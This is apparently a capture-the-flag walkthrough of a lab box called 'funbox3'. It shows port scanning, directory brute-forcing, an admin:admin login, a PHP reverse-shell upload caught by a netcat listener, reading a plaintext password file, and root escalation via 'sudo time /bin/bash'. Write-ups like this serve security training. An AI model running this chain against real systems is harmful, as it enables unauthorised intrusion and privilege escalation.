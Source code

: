 -> I started by enumerating the machine 
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.177.111

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 10:37 EST
Nmap scan report for 192.168.177.111
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.99 seconds
```
-> I noticed it had an web page, so I look for hidden directories
```
┌──(root㉿kali)-[/home/astra]
└─# dirbuster -u http://192.168.177.111/ -l /usr/share/wordlists/wfuzz/general/common.txt 
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /admin/ - 200
Dir found: /secret/ - 200
Dir found: /store/ - 200
File found: /robots.txt - 200
Dir found: /admin/assets/ - 200
Dir found: /admin/assets/plugins/ - 200
File found: /store/admin.php - 200
```
-> I noticed it had an /store/admin.php, it requested an login, so I input admin:admin, and I got in.
-> I go to http://192.168.177.111/store/admin_add.php and try to upload an reverse php shell, first I initiate netcat listening on port 7777.

-> After uploading the shell, I find it here http://192.168.177.111/store/bootstrap/img, and I click on the shell, andddd, I got access!
```
┌──(root㉿kali)-[/home/astra]
└─# nc -lvnp 7777                                    
listening on [any] 7777 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.177.111] 45016
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:59:29 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$  python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@funbox3:/$ 
```
-> I thought it would have the user flag right away, but I was wrong, moving to home directory I found an interesting password file under tony's user
```
www-data@funbox3:/$ ls
ls
bin    dev   lib    libx32      mnt   root  snap      sys  var
boot   etc   lib32  lost+found  opt   run   srv       tmp
cdrom  home  lib64  media       proc  sbin  swap.img  usr
www-data@funbox3:/$ cd home
cd home
www-data@funbox3:/home$ ls
ls
tony
www-data@funbox3:/home$ cd tony
cd tony
www-data@funbox3:/home/tony$ ls
ls
password.txt
www-data@funbox3:/home/tony$ cat password.txt
cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
www-data@funbox3:/home/tony$ 
```
-> After that I login with tony's user and escalate privileges 
```

www-data@funbox3:/home/tony$ ssh -l tony 192.168.177.111

ssh -l tony 192.168.177.111
Could not create directory '/var/www/.ssh'.
The authenticity of host '192.168.177.111 (192.168.177.111)' can't be established.
ECDSA key fingerprint is SHA256:lDqW7tOK4ZCIRla+OSX6KVPDsRFL04w865Q2Q7MR7+k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
tony@192.168.177.111's password: yxcvbnmYYY


tony@funbox3:~$ ls 
ls
password.txt
tony@funbox3:~$ cat pas
cat password.txt 
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
tony@funbox3:~$ sudo -l
sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
tony@funbox3:~$ sudo time /bin/bash
sudo time /bin/bash
root@funbox3:/home/tony# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox3:/home/tony# cd
cd
root@funbox3:~# cd root
cd root
bash: cd: root: No such file or directory
root@funbox3:~# ls
ls
proof.txt  root.flag  snap
root@funbox3:~# cat pro
cat proof.txt 
89940c54a5eff574e10d5f1f0cfe3f5a
```
-> And we got the root flag !

